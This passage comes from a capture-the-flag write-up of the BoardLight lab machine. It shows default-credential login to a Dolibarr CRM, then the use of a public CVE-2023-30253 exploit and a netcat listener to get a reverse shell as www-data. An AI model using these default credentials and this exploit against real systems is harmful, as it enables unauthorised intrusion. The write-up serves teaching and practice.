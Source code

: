 Well we've already found a subdomain that likely handles their customer relations. Still worth checking out the front page anyway.

{% include img_link src="/img/boardlight/boardlight_front_page" alt="front_page" ext="png" trunc=600 %}

Yeah nothing out of the ordinary here. Onto `crm.board.htb`.

# www-data

## CVE-2023-30253

![crm login]({{ page.img }}_crm_login_page.png)

Well after some searching the password can be found to be admin:admin, it is of note that admin:changeme123 is another default credential and I am unclear if these were manually set or never changed.

![crm dashboard post login]({{ page.img }}_crm_dashboard.png)

Poking around for the functionality of this dashboard I find out I can create websites, edit HTML, and some other innocuous actions. 

![website create]({{ page.img }}_crm_website_create.png)

[CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py) is the github poc I'll be using. Effectively after creating a website I can place php within a script tag in the html editor and force the editor to dynamically load, allowing me to use php for rce.

```bash
python3 exploit.py http://crm.board.htb admin admin 10.10.14.7 7777

[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password


python3 exploit.py http://crm.board.htb admin admin 10.10.14.7 7777

[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.11 58650
bash: cannot set terminal process group (840): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ls   
ls
index.php
styles.css.php

```
